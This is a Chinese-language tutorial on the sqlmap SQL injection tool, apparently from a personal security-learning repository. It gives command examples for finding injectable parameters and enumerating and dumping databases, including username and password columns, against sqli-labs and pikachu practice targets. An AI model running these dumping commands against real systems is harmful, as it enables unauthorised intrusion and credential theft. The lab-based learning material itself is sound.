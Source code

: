 参考资料 https://blog.csdn.net/A_991128a/article/details/132690711 待续更

<h1>一、Sqlmap是什么</h1>

SQLmap是一款由Python语言编写的开源SQL注入检测与利用工具，它具备强大的自动化功能，能够自动检测和利用Web应用程序中的SQL注入漏洞。它支持多种数据库管理系统，包括MySQL、Oracle、PostgreSQL、Microsoft SQL Server等，并提供了丰富的特性和选项，如指纹识别、数据库枚举、数据提取、文件访问、命令执行等。kali自带该工具，路径为 /usr/share/sqlmap </br>

<h1>二、Sqlmap使用方法</h1>

<h2>1.指定要扫描的目标(GET)</h2>

-u (url)参数，指定需要检测的url，单/双引号包裹。中间如果有提示，就输入y。 </br>
提示：SQLmap不能直接「扫描」网站漏洞，先用其他扫描工具扫出注入点，再用SQLmap验证并「利用」注入点。 </br>
举例：

```
# 注意，这里是适用于get请求的接口扫描
sqlmap -u 'http://192.168.31.180/sqli-labs-master/Less-1/?id=1'
```

扫描结果为

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/4a45baf9-166f-4093-96a8-ebbcdddf2fa3)

<h2>2.多目标扫描(GET)</h2>

准备一个【文本文件】，写上需要检测的多个url，一行一个。 </br>
-m (multi)指定文件，可以「批量扫描」文件中的url。 </br>

逐个扫描url，需要确认就按y。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/98c72d58-1c82-4f72-b7f3-b3e6ac07a174)

扫描完一个，就会提示存在的注入点。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/83babbab-9656-474b-9e79-9a7b5228d6a6)

然后再按y扫描下一个url。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/94f61f22-6a1f-43d9-bbc6-a7e72ef7c187)

<h2>3.指定要扫描的目标(POST)</h2>

检测「post请求」的注入点，使用BP等工具「抓包」，将http请求内容保存到txt文件中。

-r 指定需要检测的文件，SQLmap会通过post请求方式检测目标。

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/b1afbdb0-fedb-4f70-8739-54489501217d)

<h2>4.指定要扫描的数据库/表/字段</h2>

-D (Database)指定目标「数据库」，单/双引号包裹，常配合其他参数使用。 </br>

-T (Table)指定目标「表」，单/双引号包裹，常配合其他参数使用。 </br>

-C (Column)指定目标「字段」，单/双引号包裹，常配合其他参数使用。 </br>

一般会与其他参数结合进行使用，逐级进行数据获取，比如：

```
#1.获取所有库名
python sqlmap.py -r post_payload.txt --dbs

#2.进入指定数据库，获取库内所有表名
python sqlmap.py -r post_payload.txt -D pikachu --tables

#3.进入指定数据库的数据表，获取表内所有字段名
python sqlmap.py -r post_payload.txt -D pikachu -T users --colums
```

<h2>5.cookie注入</h2>

--cookie 指定cookie的值，单/双引号包裹。

```
sqlmap -u "http://xx?id=x" --cookie 'cookie'
```

<h1>三、脱库</h1>

-a (all)就是 all 的意思，获取所有能获取的内容，会消耗很长时间，不建议使用。

```
sqlmap -u "http://xx?id=x" -a
```

<h2>1.获取数据库</h2>

(1)获取数据库版本 </br>

```
sqlmap -u 'http://xx/?id=1' -b
```

(2)获取当前使用的数据库 </br>

```
sqlmap -u 'http://xx/?id=1' --current-db
```

(3)获取所有数据库 </br>

```
sqlmap -u 'http://xx/?id=1' --dbs
```

<h2>2.获取数据表</h2>

(1)获取表，可以指定数据库 </br>

```
sqlmap -u 'http://xx/?id=1' -D 'security' --tables
```

(2)同时获取多个库的表名，库名用逗号分隔 </br>

```
sqlmap -u 'http://xx/?id=1' -D 'security,sys' --tables
```

(3)不指定数据库，默认获取数据库中所有的表 </br>

```
sqlmap -u 'http://xx/?id=1' --tables
```

<h2>3.获取字段</h2>

(1)获取字段，可以指定库和表</br>

```
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --columns
```

(2)不指定表名，默认获取当前数据库中所有表的字段</br>

```
sqlmap -u 'http://xx/?id=1' --columns
```

<h2>4.获取字段类型</h2>

--schema 获取字段类型，可以指定库或指定表。不指定则获取数据库中所有字段的类型。</br>

<h2>5.获取数据(脱库脱数据)</h2>

--dump 获取值，也就是表中的数据。可以指定具体的库、表、字段。

```
# 获取security数据库中users表的username和password字段，并将数据脱出数据库存放在攻击终端本地
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'username,password' --dump
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/5b3d1de9-82e2-4293-a22a-86a27bafeac4)

获取指定库中所有表的数据。

```
sqlmap -u 'http://xx/?id=1' -D 'security' --dump
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/5882be28-3928-4cbf-b891-370e0b700a56)

默认获取表中的所有数据，可以使用 --start --stop 指定开始和结束的行，只获取一部分数据。

```
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --start 1 --stop 5  --dump
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/cb8d424b-beb4-4e53-b935-823e31c1caa0)


<h1>四、实际案例--针对pikachu靶场sql注入漏洞使用sqlmap进行攻击</h2>

抓取存在POST类型请求的具有sql注入漏洞的请求包

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/8bf89090-2d19-4dd1-9dab-1364fbee8e6c)

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/d7a31391-a149-41b7-99a8-c6b0f47f850a)

将请求包存储为文本类型的文件post_payload.txt,并使用以下的命令进行扫描，扫描内容为查看所有数据库(--dbs)

```
 python sqlmap.py -r post_payload.txt --dbs
```

![image](https://github.com/WarlockW/Security-Learning-Daily/assets/64346345/abd9b48c-49e6-487d-8cf5-15088135593b)

